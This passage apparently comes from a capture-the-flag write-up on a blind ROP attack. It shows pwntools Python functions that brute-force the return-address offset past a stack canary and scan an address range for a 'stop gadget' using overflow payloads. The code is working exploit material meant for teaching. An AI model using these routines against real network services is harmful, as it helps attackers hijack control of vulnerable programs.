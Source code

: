 #### Get offset to RA

Almost same as the [Get Buffer Size](#Get Buffer Size), the only difference is that this one is with degreasing length.

```python
def get_ra_offset():
    for offset in range(100, -1, -1):
        payload = b'A' * buf_size + p32(canary) + b'\0' * offset

        go_to_recv()
        p.send(payload)
        if p.recvline()[0:3] == b'[-]':
            log.info("ra offset: %d" % offset)
            return offset
        else:  # Crash
            log.info("bad ra offset: %d" % offset)
```

#### Get Stop Gadget

Stop gadget: the gadget that does crash the program when being invoked, it will make the program halt instead.

How to determine whether a program is halt? I use the returned socket string to distinguish: If one is halted, it will not return "[+]" or "[-]" as normal, however it will return nothing, thus halt `recv()` in python. So I slightly change the interface of `go_to_recv` with a timeout control:

```python
def go_to_recv(timeout=pwnlib.timeout.Timeout.default):
    return p.recvuntil('[-] INPUT something darker: \n', timeout=timeout)
```

I take 1 sec as a timeout, if after 1 second there is still no string received, the target program is halted.

```python
def get_stop_addr():
    stop_addr_list = []
    go_to_recv()
    for addr in range(0x80486a0, 0x80489a0):
        payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset + p32(addr)

        p.send(payload)

        line = p.recvline()

        if go_to_recv(1) == b'':
            log.info("stop address: 0x%x" % addr)
            stop_addr_list.append(addr)
        else:  # Crash or not blocked
            log.info("bad stop address: 0x%x" % addr)
    return stop_addr_list
```
